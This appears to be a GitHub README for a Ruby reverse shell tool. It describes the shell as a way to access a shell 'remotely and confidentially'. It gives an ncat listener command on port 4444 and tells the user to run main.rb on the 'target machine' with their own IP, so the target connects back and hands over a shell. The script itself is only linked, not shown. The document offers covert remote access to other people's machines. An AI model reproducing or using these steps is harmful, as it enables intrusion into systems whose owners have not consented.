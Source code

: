 # Ruby Reverse shell
reverse shell is the act of accessing a shell remotely and confidentially.

# Mode of use
- open a port using ncat, as an example, I will use port 4444
```
ncat -lvp 4444
```
start the file <a href="https://github.com/brUc3r/revshell_ruby/blog/main/main.rb">main.rb</a> on target machine
with these parameters:

```python
ruby main.rb YOUR IP 4444
```
> you can use ifconfig command to see your IP.

